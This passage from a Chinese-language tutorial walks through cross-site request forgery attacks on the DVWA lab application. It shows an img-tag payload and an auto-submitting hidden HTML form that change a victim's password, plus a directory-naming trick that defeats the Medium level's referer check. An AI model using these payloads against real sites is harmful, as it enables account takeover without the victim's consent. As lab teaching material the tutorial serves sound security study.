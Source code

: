 ```html
<img src="http://ip/vulnerabilities/csrf/?password_new=222&password_conf=222&Change=Change#">
```

到这里大家应该发现规律了吧，就是 src 属性拥有跨域的能力，只要标签支持 src 的话 都可以尝试一下 xss 与 csrf 结合。

### Medium

中等级别的代码增加了 referer 判断：

```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false )
```

如果 HTTP_REFERER 和 SERVER_NAME 不是来自同一个域的话就无法进行到循环内部，执行修改密码的操作。

这个时候需要我们手动伪造 referer 来执行 CSRF 攻击:



![img](https://image.3001.net/images/20200526/1590484054728.png)

**img**



当然受害者肯定不会帮我们手动添加 referer 的，因为代码使用了 `stripos` 函数来检测 referer，所以这个时候我们得精心构造好一个 html 页面表单：

```html
<html>
<head>
    <meta charset="utf-8">
    <title>CSRF</title>
</head>
<body>

<form method="get" id="csrf" action="http://127.0.0.1:8888/vulnerabilities/csrf/">
    <input type="hidden" name="password_new" value="222">
    <input type="hidden" name="password_conf" value="222">
    <input type="hidden" name="Change" value="Change">
</form>
<script> document.forms["csrf"].submit(); </script>
</body>
</html>
```

该表单通过：

```javascript
<script> document.forms["csrf"].submit(); </script>
```

实现自动触发提交 id 为 csrf 的表单，这个在实战中是比较实用的一个技巧。

1. **目录混淆 referer**

将上述 html 页面放到服务器的 `127.0.0.1` 目录下，然后让用户访问自动触发提交然后访问构造好的 payload 地址：

```payload
http://ip/127.0.0.1/csrf.html
```
